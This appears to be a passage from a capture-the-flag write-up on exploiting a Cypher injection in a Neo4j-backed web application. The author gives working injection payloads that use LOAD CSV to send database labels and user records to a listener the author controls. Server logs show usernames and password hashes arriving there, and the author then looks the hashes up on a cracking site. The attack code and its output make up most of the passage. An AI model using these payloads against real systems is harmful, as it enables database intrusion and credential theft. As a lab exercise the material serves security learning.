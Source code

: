 Where `http://10.0.2.4:8000` should be a dummy server we run, so we can see requests and their params. 
```bash
~/tmp➤ python -m http.server 6666
Serving HTTP on 0.0.0.0 port 6666 (http://0.0.0.0:6666/) ...
10.10.11.210 - - [16/Aug/2023 22:25:44] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
10.10.11.210 - - [16/Aug/2023 22:25:44] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -
```

Getting all labels from db: `1' OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.3:6666/?label='+label as l RETURN 0 as _0 //`
```bash
10.10.11.210 - - [16/Aug/2023 22:39:13] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [16/Aug/2023 22:39:14] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [16/Aug/2023 22:39:14] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [16/Aug/2023 22:39:14] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [16/Aug/2023 22:39:15] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [16/Aug/2023 22:39:15] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [16/Aug/2023 22:39:15] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [16/Aug/2023 22:39:15] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [16/Aug/2023 22:39:16] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [16/Aug/2023 22:39:16] "GET /?label=employee HTTP/1.1" 200 -
```

Dumping data from user label db: `1' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.3:6666/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //`
```bash
10.10.11.210 - - [16/Aug/2023 22:40:34] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [16/Aug/2023 22:40:35] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [16/Aug/2023 22:40:35] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [16/Aug/2023 22:40:35] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [16/Aug/2023 22:40:36] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [16/Aug/2023 22:40:36] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [16/Aug/2023 22:40:36] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [16/Aug/2023 22:40:36] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [16/Aug/2023 22:40:37] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [16/Aug/2023 22:40:37] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [16/Aug/2023 22:40:37] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [16/Aug/2023 22:40:38] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [16/Aug/2023 22:40:38] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
```

Looking into crackstation to see if there is something cracked there already:
{{< limg "/i/2023-08-16_22-42.png" "Crackstation" >}}
